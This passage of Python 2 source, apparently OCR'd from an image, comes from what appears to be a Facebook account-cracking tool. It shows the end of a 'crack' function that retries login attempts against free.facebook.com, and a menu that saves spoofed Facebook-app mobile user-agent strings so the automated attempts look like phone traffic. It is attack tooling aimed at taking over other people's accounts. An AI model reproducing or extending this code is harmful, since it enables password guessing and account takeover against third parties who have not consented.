     loop+=1
  except Exception as e:
    if "free.facebook.com" in host:
      return crack(uid, pwx, host)
    else:
      return crack(uid, pwx, "https://free.facebook.com")

def setting_ua():
  print("\n [ choose your phone user agent ]\n")
  print(" [1] Xiaomi")
  print(" [2] Samsung")
  print(" [3] Nokia")
  print(" [4] Asus")
  print(" [5] Huawei")
  print(" [6] Manual user-agent")
  ua = raw_input("\n [?] choose : ")
  if ua =="":
    menu()
  elif ua == "1":
    c_ua = ("Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()
  elif ua == "2":
    c_ua = ("Dalvik/2.1.0 (Linux; U; Android 8.0.0; SM-A720F Build/R16NW) [FBAN/Orca-Android;FBAV/196.0.0.29.99;FBPN/com.facebook.orca;FBLC/id_ID;FBBV/135374479;FBCR/AIS;FBMF/samsung;FBBD/samsung;FBDV/SM-A720F;FBSV8.0.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()
  elif ua == "3":
    c_ua = ("Mozilla/5.0 (Linux; Android 4.1.2; Nokia_X Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.82 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()
  elif ua == "4":
    c_ua = ("Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()
  elif ua == "5":
    c_ua = ("[FBAN/FB4A,FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI,.FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19.FBCA/armeabi-v7a:armeabi,]")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()
  elif ua == "6":
    c_ua = raw_input(" [+] user-agent : ")
    if c_ua == "":
      exit("\n [!] don't be empty")
    open(".ua", "w").write(c_ua)
    time.sleep(1)
    raw_input("\n [+] successfully changed user agent")
    menu()